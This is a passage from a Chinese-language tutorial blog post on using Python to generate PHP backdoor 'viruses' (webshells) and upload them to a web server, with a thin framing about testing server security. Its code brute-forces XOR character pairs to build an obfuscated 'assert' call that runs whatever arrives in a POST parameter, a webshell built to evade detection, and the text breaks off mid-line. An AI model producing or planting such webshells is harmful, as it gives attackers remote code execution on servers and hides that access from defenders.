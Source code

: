 # 原创
：  Python编程初学者必读：生成PHP后门病毒的完整指南

# Python编程初学者必读：生成PHP后门病毒的完整指南

**部分数据来源：**ChatGPT 

### 简介

        在Web开发中，PHP是一种十分常见的后台语言，但由于PHP的弱类型和动态性，使其容易受到各种漏洞攻击。在某些场景下，攻击者可能会尝试在服务器上上传Webshell，从而进一步攻击目标服务器。因此，将我们常见的PHP后门病毒生成代码编写成一个Python脚本，模拟攻击者的行为，来检查服务器是否存在安全隐患。

本文将带领你使用Python来生成PHP后门病毒，并将其上传到Web服务器。

### 所需的工具以及技能

        在开始之前，假设您已经安装了Python，掌握了基本的命令行使用方式，并且熟悉了Web服务器的基本概念。

#### 工具列表

### 生成后门文件

        在这个任务中，我们将模拟攻击，生成PHP脚本来建立后门文件。

```
import os
 
for i in range(1,127):
    for ii in range(1,127):
        payload = "'" + chr(i) + "'" + '^' + "'" + chr(ii) + "'"
        code="&lt;?php $a=("+payload+").'ssert';$a($_POST[x]);?&gt;&amp;#
```

